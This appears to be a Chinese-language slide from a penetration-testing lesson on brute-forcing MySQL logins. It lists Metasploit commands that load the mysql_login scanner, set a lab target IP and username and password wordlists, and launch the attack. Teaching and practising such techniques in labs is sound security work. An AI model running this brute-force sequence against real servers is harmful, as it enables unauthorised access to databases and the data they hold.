

# mysql口令攻击
Mysql数据库无法直接爆破root账户，除非管理员脑残 root账户只能是本地连接
search mysql
use auxiliary/scanner/mysql/mysql_login
show options
set RHOSTS 192.168.80.130
set user_file /root/user.txt
set pass_file /root/pass.txt
exploit